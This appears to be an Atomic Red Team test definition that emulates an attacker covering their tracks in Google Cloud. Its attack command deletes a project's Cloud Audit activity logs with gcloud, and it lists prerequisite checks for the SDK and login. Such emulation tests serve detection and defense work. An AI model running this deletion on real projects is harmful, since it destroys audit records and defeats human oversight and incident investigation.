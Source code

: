 **auto_generated_guid:** d56152ec-01d9-42a2-877c-aac1f6ebe8e6

#### Inputs:

| Name       | Description                                               | Type   | Default Value    |
| ---------- | --------------------------------------------------------- | ------ | ---------------- |
| project-id | ID of the GCP Project you to execute the command against. | string | atomic-project-1 |

#### Attack Commands: Run with `sh`!

```sh
gcloud config set project #{project-id}
gcloud logging logs delete projects/#{project-id}/logs/cloudaudit.googleapis.com%2Factivity --quiet
```

#### Dependencies: Run with `sh`!

##### Description: Requires gcloud

##### Check Prereq Commands:

```sh
if [ -x "$(command -v gcloud)" ]; then exit 0; else exit 1; fi;
```

##### Get Prereq Commands:

```sh
echo "Please Install Google Cloud SDK before running this atomic test : https://cloud.google.com/sdk/docs/install"
```

##### Description: Check if user is logged in

##### Check Prereq Commands:

```sh
gcloud config get-value account
```

##### Get Prereq Commands:

```sh
gcloud auth login --no-launch-browser
```

<br/>
